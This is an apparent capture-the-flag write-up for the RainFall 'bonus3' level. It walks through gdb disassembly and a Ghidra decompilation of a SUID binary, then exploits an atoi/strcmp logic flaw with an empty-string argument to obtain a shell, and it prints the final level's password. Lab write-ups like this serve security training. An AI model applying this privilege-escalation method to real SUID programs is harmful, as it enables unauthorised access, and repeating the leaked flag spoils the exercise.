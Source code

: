 # Bonus 3

```sh
(gdb) info func
All defined functions:

Non-debugging symbols:
0x0804836c  _init
0x080483b0  strcmp
0x080483b0  strcmp@plt
0x080483c0  fclose
0x080483c0  fclose@plt
0x080483d0  fread
0x080483d0  fread@plt
0x080483e0  puts
0x080483e0  puts@plt
0x080483f0  __gmon_start__
0x080483f0  __gmon_start__@plt
0x08048400  __libc_start_main
0x08048400  __libc_start_main@plt
0x08048410  fopen
0x08048410  fopen@plt
0x08048420  execl
0x08048420  execl@plt
0x08048430  atoi
0x08048430  atoi@plt
0x08048440  _start
0x08048470  __do_global_dtors_aux
0x080484d0  frame_dummy
0x080484f4  main
0x08048620  __libc_csu_init
0x08048690  __libc_csu_fini
0x08048692  __i686.get_pc_thunk.bx
0x080486a0  __do_global_ctors_aux
0x080486cc  _fini
(gdb) 
```

```sh
(gdb) disas main
Dump of assembler code for function main:
   0x080484f4 <+0>:	push   ebp
   0x080484f5 <+1>:	mov    ebp,esp
   0x080484f7 <+3>:	push   edi
   0x080484f8 <+4>:	push   ebx
   0x080484f9 <+5>:	and    esp,0xfffffff0
   0x080484fc <+8>:	sub    esp,0xa0
   0x08048502 <+14>:	mov    edx,0x80486f0
   0x08048507 <+19>:	mov    eax,0x80486f2
   0x0804850c <+24>:	mov    DWORD PTR [esp+0x4],edx
   0x08048510 <+28>:	mov    DWORD PTR [esp],eax
   0x08048513 <+31>:	call   0x8048410 <fopen@plt>
   0x08048518 <+36>:	mov    DWORD PTR [esp+0x9c],eax
   0x0804851f <+43>:	lea    ebx,[esp+0x18]
   0x08048523 <+47>:	mov    eax,0x0
   0x08048528 <+52>:	mov    edx,0x21
   0x0804852d <+57>:	mov    edi,ebx
   0x0804852f <+59>:	mov    ecx,edx
   0x08048531 <+61>:	rep stos DWORD PTR es:[edi],eax
   0x08048533 <+63>:	cmp    DWORD PTR [esp+0x9c],0x0
   0x0804853b <+71>:	je     0x8048543 <main+79>
   0x0804853d <+73>:	cmp    DWORD PTR [ebp+0x8],0x2
   0x08048541 <+77>:	je     0x804854d <main+89>
   0x08048543 <+79>:	mov    eax,0xffffffff
   0x08048548 <+84>:	jmp    0x8048615 <main+289>
   0x0804854d <+89>:	lea    eax,[esp+0x18]
   0x08048551 <+93>:	mov    edx,DWORD PTR [esp+0x9c]
   0x08048558 <+100>:	mov    DWORD PTR [esp+0xc],edx
   0x0804855c <+104>:	mov    DWORD PTR [esp+0x8],0x42
   0x08048564 <+112>:	mov    DWORD PTR [esp+0x4],0x1
   0x0804856c <+120>:	mov    DWORD PTR [esp],eax
   0x0804856f <+123>:	call   0x80483d0 <fread@plt>
   0x08048574 <+128>:	mov    BYTE PTR [esp+0x59],0x0
   0x08048579 <+133>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804857c <+136>:	add    eax,0x4
   0x0804857f <+139>:	mov    eax,DWORD PTR [eax]
   0x08048581 <+141>:	mov    DWORD PTR [esp],eax
   0x08048584 <+144>:	call   0x8048430 <atoi@plt>
   0x08048589 <+149>:	mov    BYTE PTR [esp+eax*1+0x18],0x0
   0x0804858e <+154>:	lea    eax,[esp+0x18]
   0x08048592 <+158>:	lea    edx,[eax+0x42]
   0x08048595 <+161>:	mov    eax,DWORD PTR [esp+0x9c]
   0x0804859c <+168>:	mov    DWORD PTR [esp+0xc],eax
   0x080485a0 <+172>:	mov    DWORD PTR [esp+0x8],0x41
   0x080485a8 <+180>:	mov    DWORD PTR [esp+0x4],0x1
---Type <return> to continue, or q <return> to quit---
   0x080485b0 <+188>:	mov    DWORD PTR [esp],edx
   0x080485b3 <+191>:	call   0x80483d0 <fread@plt>
   0x080485b8 <+196>:	mov    eax,DWORD PTR [esp+0x9c]
   0x080485bf <+203>:	mov    DWORD PTR [esp],eax
   0x080485c2 <+206>:	call   0x80483c0 <fclose@plt>
   0x080485c7 <+211>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080485ca <+214>:	add    eax,0x4
   0x080485cd <+217>:	mov    eax,DWORD PTR [eax]
   0x080485cf <+219>:	mov    DWORD PTR [esp+0x4],eax
   0x080485d3 <+223>:	lea    eax,[esp+0x18]
   0x080485d7 <+227>:	mov    DWORD PTR [esp],eax
   0x080485da <+230>:	call   0x80483b0 <strcmp@plt>
   0x080485df <+235>:	test   eax,eax
   0x080485e1 <+237>:	jne    0x8048601 <main+269>
   0x080485e3 <+239>:	mov    DWORD PTR [esp+0x8],0x0
   0x080485eb <+247>:	mov    DWORD PTR [esp+0x4],0x8048707
   0x080485f3 <+255>:	mov    DWORD PTR [esp],0x804870a
   0x080485fa <+262>:	call   0x8048420 <execl@plt>
   0x080485ff <+267>:	jmp    0x8048610 <main+284>
   0x08048601 <+269>:	lea    eax,[esp+0x18]
   0x08048605 <+273>:	add    eax,0x42
   0x08048608 <+276>:	mov    DWORD PTR [esp],eax
   0x0804860b <+279>:	call   0x80483e0 <puts@plt>
   0x08048610 <+284>:	mov    eax,0x0
   0x08048615 <+289>:	lea    esp,[ebp-0x8]
   0x08048618 <+292>:	pop    ebx
   0x08048619 <+293>:	pop    edi
   0x0804861a <+294>:	pop    ebp
   0x0804861b <+295>:	ret    
End of assembler dump.
(gdb)
```


```sh
bonus3@RainFall:~$ ./bonus3 
bonus3@RainFall:~$ ./bonus3 kik

bonus3@RainFall:~$ ./bonus3 kiklll

bonus3@RainFall:~$ ./bonus3 kiklll lol
bonus3@RainFall:~$ ./bonus3 kiklll lol lol
bonus3@RainFall:~$
```

When there is one argument it prints a '\n'.

Ghidra :

```c
undefined4 main(int param_1,int param_2)
{
  undefined4 uVar1;
  int iVar2;
  undefined4 *puVar3;
  byte bVar4;
  undefined4 local_98 [16];
  undefined local_57;
  char local_56 [66];
  FILE *local_14;
  
  bVar4 = 0;
  local_14 = fopen("/home/user/end/.pass","r");
  puVar3 = local_98;
  for (iVar2 = 0x21; iVar2 != 0; iVar2 = iVar2 + -1) {
    *puVar3 = 0;
    puVar3 = puVar3 + (uint)bVar4 * -2 + 1;
  }
  if ((local_14 == (FILE *)0x0) || (param_1 != 2)) {
    uVar1 = 0xffffffff;
  }
  else {
    fread(local_98,1,0x42,local_14);
    local_57 = 0;
    iVar2 = atoi(*(char **)(param_2 + 4));
    *(undefined *)((int)local_98 + iVar2) = 0;
    fread(local_56,1,0x41,local_14);
    fclose(local_14);
    iVar2 = strcmp((char *)local_98,*(char **)(param_2 + 4));
    if (iVar2 == 0) {
      execl("/bin/sh","sh",0);
    }
    else {
      puts(local_56);
    }
    uVar1 = 0;
  }
  return uVar1;
}
```


The program opens the last password, but also execute a shell, when certain condition ar met.

We will take the first open door we see.

After reviewing the code, the program do an atoi on av[1], we can try overflowing with big or negative integer.

Using GDB is quite hard here, the program opens a file that only the 'end' user can access, and since binary is SUID, using a debugger will quit the program since it quit if it doesn't succeed at opening the file.

So the only way to test our input is to edit the file the program is trying to access, we are to give it our own like this :


```sh
(gdb) br *main+28
Breakpoint 1 at 0x8048510
(gdb) run l
Starting program: /home/user/bonus3/bonus3 l

Breakpoint 1, 0x08048510 in main ()
(gdb) p $eax
$1 = 134514418
(gdb) x/s $eax
0x80486f2:	 "/home/user/end/.pass"
(gdb) set $eax = "/tmp/fichier"
(gdb) p $eax
$2 = 134520840
(gdb) continue
Continuing.

[Inferior 1 (process 4954) exited normally]
```

From there we can test our input.

After several tests, we realise a few things.

The local_98 actually has the file result, it then does an atoi on av[1] and use the result to put a '\0' in local_98.

So if we give him 0, it will do that : 

```c
local_98[0] = '\0'
```

It then use strcmp to compare the same av[1] with local_98.

So in our case its doing this :

```c
strcmp("", '0');
```

If that result goes to 0 we get our shell, but since 0 is equal to 48 in decimal..

We can give him an empty string, so that atoi return 0, and it will compare "" with "".


```sh
bonus3@RainFall:~$ ./bonus3 ""
$
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```

And that's the end of the CTF !

```sh
end@RainFall:~$ ls
end
end@RainFall:~$ ./end 
./end: line 1: Congratulations: command not found
end@RainFall:~$
```